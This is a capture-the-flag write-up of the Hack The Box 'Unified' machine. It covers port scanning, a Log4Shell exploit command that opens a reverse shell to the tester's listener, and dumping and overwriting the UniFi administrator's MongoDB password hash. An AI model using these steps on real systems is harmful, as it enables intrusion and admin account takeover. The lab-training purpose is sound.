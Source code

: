 ```yaml
---
title: "HTB — Tier 2 Starting Point: Unified"
published: 2025-07-11
description: ''
image: ''
tags: [HackTheBox,Writeup,CyberSec]
category: 'CyberSec'
draft: false 
lang: 'en'
---
```


# Enumeration

## nmap

```plaintext
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.209.113:8443/manage
8443/tcp open  https-alt
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
```

- 22,6789,8080,8443

```plaintext
PORT     STATE    SERVICE         VERSION
22/tcp   open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
1031/tcp filtered iad2
2401/tcp filtered cvspserver
6789/tcp open     ibm-db2-admin?
7103/tcp filtered unknown
8080/tcp open     http            Apache Tomcat (language: en)
8443/tcp open     ssl/nagios-nsca Nagios NSCA
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Finding Attack Vector

- unified version : 6.4.54
- CVE-2021-44228
- python3 exploit.py -u <https://10.129.209.113:8443> -i 10.10.14.159 -p 4444
- username = michael
- user.txt
  - 6ced1a6a89e666c0****************
- export TERM=xterm
- export TERM=xterm-256color
- <https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation>
- upgrade terminal shell
  - script /dev/null -c bash
- mongodb default database dump
  - mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);`
  - db.admin.find()

```bash
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
Each(printjson);"7 ace --eval "db.admin.find().forE
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
}

```

- new pass (password)

```plaintext
$6$UwwBFErYxwlTxcc1$pixniPrk2FyE29v2IDRdtSNGhcqf1kpcotZsrx.w3/nr/WgAVd0WjPaeYVAAWqOfS38J6He/bjRJi74rJF07j0
```

- update password
  - db.admin.update()

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$UwwBFErYxwlTxcc1$pixniPrk2FyE29v2IDRdtSNGhcqf1kpcotZsrx.w3/nr/WgAVd0WjPaeYVAAWqOfS38J6He/bjRJi74rJF07j0"}})
```

- root.txt
  - e50bc93c75b634e4****************
